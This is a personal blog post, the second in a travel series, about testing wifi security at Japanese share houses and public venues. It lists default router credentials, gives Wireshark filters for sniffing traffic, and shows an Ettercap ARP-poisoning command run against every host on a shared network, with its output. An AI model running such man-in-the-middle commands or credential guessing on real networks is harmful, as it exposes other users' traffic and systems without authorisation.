 ```yaml
---
title: "Traveling with a HACKER Vol.2"
date: "2019-10-21T08:36:17Z"
author: Jorge
categories:
- terminal
- traveling-with-a-hacker
- hack
tags:
- terminal
- traveling-with-a-hacker
- hack
toc: true
summary: |
  I am now on my vacations traveling around Japan.
  As I always do as soon as I'm connected to a wifi,
  the first thing is turning my personal VPN on.
  This time though, I wanted to know how bad the security in some venues are.
  Kyoto-Okinawa edition.
---
```



This is a recap article of my travel around Japan. Do not expect a deep dive into  hacking techniques.

I will add the same **disclaimer** here in case [you didn't read **the**  **first volume**](/traveling-with-a-hacker-vol-1/). The techniques I am using are just basic terminal commands and practising the common sense. This isn't a **penetration testing** neither a **system exploitation**. The outcome of this experiment is the eradication of the default credentials. [_admin_/_admin, root/toor, admin/password..._]

> All the venues have been notified and by the time this article is published they should take care of the security issues. No name will be disclosed and some information might be **censored**.

---

{{< figure src="/img/2019/10/IMG_3324-1.jpg" caption="Traditional Japanese Share House in Okinawa (not a Ryokan though)" >}}

I am happy to say I couldn't access the video surveillance system in Okinawa, mainly because the IP cameras  **was conspicuous by its absence**.

Routers and repeaters were as weak as in Tokyo. It's sad to realize how technology is handled in some venues. Don't get me wrong, I had my best times in the Share houses I have been and it made my solo trip a unique experience. Helping to some of them to improve the security was the proper way to thank the incredible people working there.

{{< figure  src="/img/2019/10/Screenshot_2019-10-21_at_09_21_13.png" width="3104" height="1978" >}}
{{< figure  src="/img/2019/10/Screenshot-2019-10-21-at-10.03.18.png" width="3104" height="1978" >}}

Not only in the Share house but also in some restaurants, train stations, malls and public spaces they use a different `SSID` for each floor. Not sure why this is a thing though.

{{< figure src="/img/2019/10/Screenshot_2019-10-21_at_14_25_23.png" >}}

In this case I wanted to go a step further and **out of curiosity** I wanted to **analyze the packages** in the network.

`http.request.method == POST or (http.request.method == POST and tcp.port == 443)` 

`tcp.dstport == 443 and not(ip.addr == <my-ip>)`

`tcp.dstport == 80`

---

After a quick dive into **[Wireshark](https://www.wireshark.org)** and basic filtering, looks like the use of the network is straight forward. I was tempted to use **[Ettercap](https://www.ettercap-project.org/)** to test the average user in this Wifi but that will be too much don't you think ;)

```bash
$ sudo ettercap -T -Q -i en0 -M arp ////

ettercap 0.8.3 copyright 2001-2019 Ettercap Development Team

Error Opening file /usr/local/var/GeoIP/GeoIP.dat
Error Opening file /usr/local/share/GeoIP/GeoIP.dat
Listening on:
   en0 -> xx:xx:xx:xx:xx:xx
	  192.168.xxx.xxx/255.255.255.0
	  xxxx::xxxx:xxxx:xxxx:xxxx/64

SSL dissection needs a valid 'redir_command_on' script in the etter.conf file
Privileges dropped to EUID 65534 EGID 65534...

  34 plugins
  42 protocol dissectors
  57 ports monitored
24609 mac vendor fingerprint
1766 tcp OS fingerprint
2182 known services

Randomizing 255 hosts for scanning...
Scanning the whole netmask for 255 hosts...
* |==================================================>| 100.00 %

20 hosts added to the hosts list...

ARP poisoning victims:

 GROUP 1 : ANY (all the hosts in the list)

 GROUP 2 : ANY (all the hosts in the list)
Starting Unified sniffing...


Text only Interface activated...
Hit 'h' for inline help
```



